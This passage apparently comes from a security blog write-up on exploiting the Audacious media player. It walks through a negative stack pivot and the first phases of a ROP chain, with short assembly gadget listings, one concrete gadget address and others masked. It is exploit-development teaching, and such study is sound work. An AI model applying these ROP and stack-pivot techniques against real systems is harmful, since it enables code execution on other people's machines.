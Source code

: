 ### Stack Pivot Challenge

Despite the favorable security posture, exploitation faces a **critical challenge**:

- **Thread Context**: Vulnerability occurs outside the main thread
- **Stack Layout**: Controlled registers point above current stack position
- **Solution Required**: Negative stack pivot to reach shellcode placement area

## Advanced ROP Chain Development

### Phase 1: Initial Register Setup

The exploit begins with a carefully crafted ROP chain using a `pushad; ret` gadget:

![First ROP gadget execution](/assets/blog/images/Audacious_2.png)

```assembly
; Initial ROP gadget - saves all registers to stack
; Address: 0x???????? (module-relative addressing)
pushad          ; Save EAX, ECX, EDX, EBX, ESP, EBP, ESI, EDI
ret             ; Return to next ROP gadget
```

This gadget provides:
- **Controlled EBP**: Base pointer for stack frame manipulation
- **Controlled ESI**: Source for memory operations
- **Controlled EDI**: Destination for memory operations

### Phase 2: Stack Alignment

The second ROP gadget performs crucial stack context alignment:

```assembly
; Stack alignment gadget
; Address: 0x68832D18
push esp        ; Push current stack pointer
ret             ; Return using ESP as target address
```

This technique ensures that subsequent ROP gadgets execute in the correct stack context.

![ROP chain execution flow](/assets/blog/images/Audacious_6.png)

### Phase 3: Stack Pivot Execution

The critical stack pivot operation:

![Stack pivot execution](/assets/blog/images/Audacious_3.png)

```assembly
; Stack pivot gadget
; Address: 0x????????
sub esp, 0x1FF  ; Negative stack pivot (511 bytes)
ret             ; Return to pivoted stack location
```
